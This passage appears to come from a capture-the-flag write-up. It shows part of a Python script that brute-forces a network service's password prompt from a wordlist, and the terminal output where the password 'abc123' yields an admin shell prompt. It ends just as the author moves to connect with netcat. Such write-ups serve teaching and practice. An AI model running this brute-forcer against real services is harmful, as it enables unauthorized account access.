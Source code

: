 ```terminal
        s.recv(1024)  # Read "Password:"

        # Send password
        s.sendall((password + "\n").encode())
        time.sleep(0.5)
        response = s.recv(2048).decode(errors="ignore")

        print(f"Trying: {password.strip()} → {response.strip()}")

        s.close()

        if all(error not in response.lower() for error in [
            "try again", "password", "incorrect", "failed"
        ]) and response.strip():
            return True, response.strip()

    except Exception as e:
        print(f"[!] Error with {password.strip()}: {e}")
    return False, None

def brute_force(ip, port, wordlist_path):
    with open(wordlist_path, "r", errors="ignore") as f:
        for line in f:
            pwd = line.strip()
            if not pwd:
                continue

            success, output = try_password(ip, port, pwd)
            if success:
                print(f"\n✅ Password found: {pwd}")
                print(f"Server Response:\n{output}")
                break

if __name__ == "__main__":
    brute_force(IP, PORT, WORDLIST_PATH)
```

after running it we ge this 
```terminal
python3 brute.py
Trying: 123456 → Password:
Trying: 12345 → Password:
Trying: 123456789 → Password:
Trying: password → Password:
Trying: iloveyou → Password:
Trying: princess → Password:
Trying: 1234567 → Password:
Trying: rockyou → Password:
Trying: 12345678 → Password:
Trying: abc123 → Welcome Admin!!! Type "shell" to begin

✅ Password found: abc123
Server Response:
Welcome Admin!!! Type "shell" to begin
```
which means the password is 'abc123' 
now let's connect to the netcat using the info we have 
